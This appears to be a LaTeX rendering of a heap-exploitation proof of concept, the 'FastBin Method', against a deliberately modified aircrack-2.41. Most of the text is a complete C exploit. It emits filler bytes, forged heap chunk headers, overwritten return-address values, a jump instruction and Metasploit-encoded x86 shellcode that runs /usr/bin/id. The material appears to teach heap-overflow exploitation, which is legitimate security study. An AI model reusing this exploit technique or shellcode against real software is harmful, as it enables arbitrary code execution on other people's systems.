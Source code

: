 \documentclass[12pt]{article}
\begin{document}
For the Proof of Concept, I modified "aircrack-2.41" adding in main() the
following code:


\begin{lstlisting}[language=C]
  int fvuln()
  {
       // Make something stupid here.
  }

   int main( int argc, char *argv[] )
   {
       int i, n, ret;
       char *s, buf[128];
       struct AP_info *ap_cur;

       fvuln();
   ...
\end{lstlisting}

The next code exploit the vulnerability:

\begin{lstlisting}[language=C]
/*
 * FastBin Method - exploit
 */

#include <stdio.h>

/* linux_ia32_exec -  CMD=/usr/bin/id Size=72 Encoder=PexFnstenvSub 
http://metasploit.com */
unsigned char scode[] =
"\x31\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x5e"
"\xc9\x6a\x42\x83\xeb\xfc\xe2\xf4\x34\xc2\x32\xdb\x0c\xaf\x02\x6f"
"\x3d\x40\x8d\x2a\x71\xba\x02\x42\x36\xe6\x08\x2b\x30\x40\x89\x10"
"\xb6\xc5\x6a\x42\x5e\xe6\x1f\x31\x2c\xe6\x08\x2b\x30\xe6\x03\x26"
"\x5e\x9e\x39\xcb\xbf\x04\xea\x42";

int main (void) {

        int i, j;

        for (i = 0; i < 1028; i++)                            /* FILLER  */
                putchar(0x41);

        for (i = 0; i < 518; i++) {
                fwrite("\x09\x04\x00\x00", 4, 1, stdout);
                for (j = 0; j < 1028; j++)
                        putchar(0x41);
        }
        fwrite("\x09\x04\x00\x00", 4, 1, stdout);

        for (i = 0; i < (1024 / 4); i++)
                fwrite("\x34\xf4\xff\xbf", 4, 1, stdout);    /*  EBP - 4 */

        fwrite("\xeb\x16\x90\x90", 4, 1, stdout);            /* JMP 0x16 */

        fwrite("\x15\x00\x00\x00", 4, 1, stdout);  /* 16 + N_M_A + P_INU */
        
        fwrite("\x90\x90\x90\x90" \
               "\x90\x90\x90\x90" \
               "\x90\x90\x90\x90" \
               "\x09\x00\x00\x00" \                   /* nextchunk->size */
               "\x90\x90\x90\x90", 20, 1, stdout);
                       

        fwrite(scode, sizeof(scode), 1, stdout);      /* THE MAGIC CODE  */

        return(0);
}
\end{lstlisting}
\end{document}

